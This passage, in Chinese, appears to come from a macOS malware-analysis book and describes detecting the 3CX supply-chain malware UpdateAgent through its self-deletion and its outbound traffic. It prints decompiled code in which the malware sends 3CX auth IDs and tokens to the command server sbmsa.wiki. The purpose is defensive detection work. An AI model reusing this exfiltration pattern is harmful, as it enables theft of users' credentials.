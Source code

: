 对于基于启发式的检测方法，自我删除的二进制文件既容易被检测到，也是一个明显的警告信号。通过文件监控来检测自我删除的二进制文件非常简单：只需查找删除事件，其中进程路径与被删除文件的路径匹配，如以下输出所示：

```
# **FileMonitor.app/Contents/MacOS/FileMonitor -pretty -filter UpdateAgent**
{
  "event" : "ES_EVENT_TYPE_NOTIFY_UNLINK",
  "file" : {
    "destination" : "/Users/User/Library/Application Support/3CX Desktop App/UpdateAgent",
    ...
    "process" : {
      "pid" : 51115,
      "name" : "UpdateAgent",
      "path" : "/Users/User/Library/Application Support/3CX Desktop App/UpdateAgent"
    }
  }
} 
```

请注意，两个 *UpdateAgent* 二进制文件的路径一致。

#### 检测外泄

自删除后，*UpdateAgent*从一个合法的 3CX 配置文件和由第一阶段组件*libffmpeg.dylib*创建的*.main_storage*文件中提取信息。在其 send_post 函数中，恶意软件将这些信息发送到另一个命令和控制服务器*sbmsa.wiki*：

```
parse_json_config(...);
read_config(...);

enc_text(&var_460, &var_860, rdx);

sprintf(&var_1060, "3cx_auth_id=%s;3cx_auth_token_content=
%s;__tutma=true", &var_58, &var_860);

send_post("https://sbmsa.wiki/blog/_insert", &var_1060, &var_1064); 
```

这次传输无疑是整个供应链攻击中最容易检测的行为，而且更重要的是，可以将其归类为异常，这一点基于许多前面已经讨论的原因。首先，网络扩展（例如 DNSMonitor）可以轻松检测到新的网络事件，并将其与相应的进程关联。在本例中，负责的进程*UpdateAgent*是最近安装的，采用临时签名并且未经过公证。此外，该进程已自删除。最后，域名*sbmsa.wiki*显得可疑，原因包括缺乏历史 DNS 记录、选择的注册商等。

LuLu 发出的警报（见图 14-1），由恶意软件尝试连接攻击者的远程服务器触发，捕获了这些异常现象。例如，带删除线的进程名称表示自删除，而困惑的皱眉符号则表明该恶意软件具有不可信的签名。

![](img/Figure14-1.jpg)
